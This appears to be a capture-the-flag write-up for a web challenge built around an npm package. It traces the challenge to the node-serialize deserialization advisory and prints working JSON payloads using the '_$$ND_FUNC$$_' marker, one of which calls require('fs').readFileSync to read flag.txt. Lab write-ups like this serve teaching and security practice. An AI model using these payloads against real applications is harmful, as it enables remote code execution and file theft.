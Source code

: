 # the npm package
Author: starsiv
## Description
```
Category: web

Install those npm packages they said, It will be helpful they said!

Download `chall.tar.gz`, build and run locally before visiting `http://localhost:3000` 
```
$ tar xzf chall.tar.gz && cd chall
$ docker build -t thepackage:latest .
$ docker run -p 3000:3000 --rm -it thepackage:latest
```
```
## Provided challenge files
* [chall.tar.gz](chall.tar.gz)


---

By downloading the .tar.gz file and running `npm install` we see `npm` triggering on node-serialize with:
https://github.com/advisories/GHSA-q4v7-4rhw-9hqm

This leads to https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ where we discover that we can invoke functions like this:

```
{
 "hello": "_$$ND_FUNC$$_function(){return 'world'}()"
}
```

All we have to do now is to use `fs` and `readFileSync` to get the file contents:

```
{
 "hello": "_$$ND_FUNC$$_function(){return require('fs').readFileSync('flag.txt','utf8') }()"
}
```

